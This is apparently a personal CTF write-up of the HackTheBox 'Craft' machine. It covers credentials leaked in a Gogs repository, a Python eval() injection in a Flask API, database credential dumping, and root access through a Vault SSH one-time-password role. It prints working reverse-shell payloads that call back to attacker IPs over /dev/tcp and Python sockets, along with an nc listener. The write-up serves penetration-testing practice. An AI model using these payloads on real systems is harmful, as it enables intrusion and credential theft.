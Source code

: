 ```yaml
---
title: "Craft Hackthebox"
date: 2020-02-03
draft: false
---
```


## Changing hosts file

By looking at the source code we can see gogs and api subdomains


So I just modified the `/etc/hosts` to the following in order to access them:
```
10.10.10.110    craft.htb gogs.craft.htb api.craft.htb
```

## Gogs page
![](https://i.imgur.com/wDN37yi.png)


By a simple Google search we find out that [Gogs](https://gogs.io/) is a somewhat widely used git service.

Exploring the Craft repo we quickly find that there was an issue and a "fix" was implemented:
![](https://i.imgur.com/eAIzGds.png)

By simply looking at the code we can easily identify where the vulnerability is. That is, passing user defined input directly into the eval function. 

We can also see that an API is used in the test file, so let's take a look at it as well.

## API page
We are presented with this once the page loads:
![](https://i.imgur.com/4cdaJZf.png)

So as you can see we can login ( therefore getting a token ), check the validity of the token and delete,update,create,get brews. However we can't interact with it since we don't have any credentials in order to get a token...

But wait, let's take a closer look at those 2 commits from before. 

![](https://i.imgur.com/LjZ4X8U.png)

OH, there you go, credentials found in the source code. Very bad practice indeed :))

# Exploiting eval
Now that we have the credentials needed to get a token, we need to think of a way to exploit the eval function. Wel... that's easy we just need to do this:

```python
import requests
import json
import urllib3

urllib3.disable_warnings()

url = "https://api.craft.htb/api/"
s = requests.Session()
r = s.get(url + "auth/login", auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']
print(token)

data = {
    "abv"       : "__import__('os').system('bash -i >& /dev/tcp/10.10.15.136/7070 0>&1')#",
    "name"      : "test",
    "brewer"    : "test",
    "style"     : "test"
}
data = json.dumps(data)

headers = {
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}
r = s.post(url + "brew/", headers=headers, data=data)
print(r.text)
```

And start our listener:

```bash
nc -nvlp 7070
```

Execute it and... Nothing. But it sohuld work right?

Well that's what I thought in the first place as well, but after a lot of thinking, poking and coffe I found out that I was pretty restricted, so I said fuck it. And build the payload from scratch with the things I knew would work. 

Finally I've ended up with this:
```python
eval(compile("""for x in range(1):\n import socket,subprocess, os\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n s.connect(("10.10.15.200", 7070))\n os.dup2(s.fileno(),0)\n os.dup2(s.fileno(),1)\n os.dup2(s.fileno(),2)\n import pty\n pty.spawn("/bin/sh")""","","single"))
```

After running the same script again, but with this payload I've got a shell.  Hooray!!

# Escaping the jail
I run `whoami` and I'm root. Uhmmm.... That's pretty strange, but ok let's take the root.txt
```bash
cat: /root/root.txt: No such file or directory
```

At this point I was confused, I thought that I gained access to a box that I wasn't supposed to, but that couldn't happen. Thus, I took a deeper look and found out that I was in a jail. However, I was having access to a file that I was previously interested in, but couldn't find it in the gogs page. That file being *`settings.py`*

So I just saw it in the directory I was currently in and took a look at it:

```python
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Another credentials, ok... but what can we do with them? Well, he is using them to connect to the db so let's do the same:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "select * from users"
        cursor.execute(sql)
        result = cursor.fetchall()
        for i in range(len(result)):
            print(result[i])

finally:
    connection.close()
```

And we get:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Nice we've now got the credentials for every user.
Now what?

At this point I thought to SSH with the found credentials, but it didn't work. So after getting into some really deep rabbit holes I've decided to try to connect to the Gogs page with the new secrets as a last hope.

And I've got in with the gilfoyle user, prompted with this:
![](https://i.imgur.com/Zwo1dtQ.png)

**Note: Don't overcomplicate things, work with what you have and exhaust every possibility before moving on**

I've instantly looked at the `.ssh` folder and found the private key and therefore got user. 

# Getting root

Once I've got user I immediately went back to the new repo to have a deeper look into it, since I learned my lesson from the previous incident.

After looking through almost everything, the `vault/secrets.sh` popped as the most interesting to peek at:
```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0
```

With the help from Google I've found [this](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). I've just followed the article:

```bash
vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Got the otp and used it to connect through SSH, since root was allowed to login.



